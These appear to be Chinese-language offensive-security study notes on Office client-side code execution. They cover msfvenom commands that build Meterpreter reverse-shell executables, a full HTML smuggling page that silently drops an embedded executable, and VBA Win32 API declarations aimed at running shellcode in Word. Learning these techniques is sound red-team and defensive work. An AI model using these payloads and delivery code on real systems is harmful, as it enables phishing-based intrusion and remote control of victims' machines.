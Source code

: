 # Microsoft Office Client Side Code Executtion
## Staged vs Non-staged Payloads
一般來說平常使用相關 Payload 框架，都會搭配可以使用弱點，也就是說弱點是拿來突破防禦機制，Payload可以說是維持存取的一種手段，維持存取的類型Payload分為
### 以下meterpreter為例:
#### Non-staged Payload (無階段性)
直接在記憶體中呼叫 執行完整的Payload
通常送過去的Payload 大小較大
Ex: windows/meterpreter_reverse_tcp
##### 產生一個 exe
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=x.x.x.x LPORT=x -f exe -o non-staged.exe
```
#### Staged Payload (有階段性)
只送一小段 Payload 做接應
較穩定，且有其他功能
Ex: windows/meterpreter/reverse_tcp
##### 產生一個 exe
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=x -f exe -o staged.exe
```
## HTML Smuggling 
想要在受害端機器上下載並執行相關的惡意程式，攻擊者會經常使用更謹慎的投放的方式。攻擊者可能將鏈接嵌入到電子郵件，當受害者閱讀電子郵件並存取網頁時，網頁自動下載惡意程式，這種行為就稱為HTML Smuggling
### Example
```
<html><body><script>	
function base64ToArrayBuffer(base64) { var binary_string = window.atob(base64); var len = binary_string.length; var bytes = new Uint8Array( len ); for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); } return bytes.buffer;}
var file = 'TVqQAAMAAAAEAAAA//8AALgAAAAAAA... (產生的base64 )
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'staged.exe'; var a = document.createElement('a');
document.body.appendChild(a); a.style = 'display: none';
var url = window.URL.createObjectURL(blob);
a.href = url; a.download = fileName; a.click();
window.URL.revokeObjectURL(url);
</script></body></html>
```
## Executing Shellcode in Word
### Calling Win32 APIs from VBA
#### C language
`BOOL GetUserNameA(LPSTR lpBuffer,LPDWORD pcbBuffer );`
#### VBA Invoke
`Private Declare Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, ByRef nSize As Long) As Long`
##### https://www.pinvoke.net/default.aspx/advapi32.getusername
